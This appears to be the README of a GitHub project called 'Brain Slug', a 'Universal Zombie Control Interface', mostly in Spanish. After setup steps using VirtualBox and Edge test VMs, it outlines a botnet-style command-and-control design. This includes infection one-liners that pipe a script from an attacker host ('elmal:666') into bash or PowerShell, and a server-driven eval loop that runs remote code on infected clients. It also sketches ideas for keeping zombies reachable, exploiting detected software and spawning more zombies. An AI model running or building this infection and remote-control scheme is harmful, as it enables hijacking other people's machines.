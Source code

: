 # Brain Slug

Universal Zombie Control Interface

## Dev Install

To test windows environment we use Vbox API. So you need to install vbox SDK.

You can find the SDK on the VirtualBox [downloads](https://www.virtualbox.org/wiki/Downloads) page. Unzip the archive and run the vboxapisetup.py file using your system Python with the following command:

```bash
python vboxapisetup.py install
```

This bindings search on global machine, so you don't need to install on a virtualenv.

For the best compatibility we use the official edge virtual machines. You can find this images
[here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/).

## Concepto

Brain Slug consta de varias partes más pequeñas:
  * Un código de infección de la máquina que hace un curl | interpreteX
  * Un Y combinator en el interprete seleccionado
  * Una sesión de servidor con la que se puede controla el flujo sin que el cliente tenga ningún tipo de lógica

###Infección

Esta se lleva a cabo a través de un curl:

```bash
curl "http://elmal:666/register" | bash
```

Incluso en windows 10:
```powershell
curl "http://elmal:666/register" | powershell.exe
```

### Combinador Y aplanado

Para que el control de la siguiente instrucción a ejecutar este en el servidor el cliente hará en sus
llamadas el siguiente flujo:

```
operacion, siguiente = eval(codigoLlegadaAlServidor)
while(True):
  eval(operacion)
  operacion, siguiente = eval(siguiente)
```

En siguiente puede estar una nueva llamada al servidor, a otro servidor, o terminar la sesión.

### Sesión de servidor
En la sesión de servidor se gestiona para cada cliente su estado en la ejecución. De forma que 
cuando un cliente pregunte por la siguiente operación a ejecutar el servidor se lo da de forma
correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la siguiente instrucción para
que el Y combinator pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el resultado de la evaluación
de la operación al servidor para que se guarden en el servidor. O pueden enviar otra orden 
para que se guarden en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al interprete del cliente, en
una primera versión se hará un recetario con plantillas como validar la prueba de concepto.


## Ideas secundarias
Se puede tener una sesión de parking con los clientes zombies para los que no se tenga
todavía trabajo de forma que ocupen pocos recursos y nos aseguremos que no se pierde el 
contacto con los mismos.

Se pueden tener diferentes flujos y sesiones de forma que un zombie pueda ejecutar diferentes
"caminos" de ejecución dependiendo de su naturaleza. Por ejemplo, una sesión que detecte
si existe un software en la máquina objetivo y otra sesión especializada en su explotación.

Se pueden tener meta sesiones que orquesten multi tareas en un zombie o multi zombie. Para
esto se necesita abrir un fork en la máquina remota que instancie un nuevo zombie.
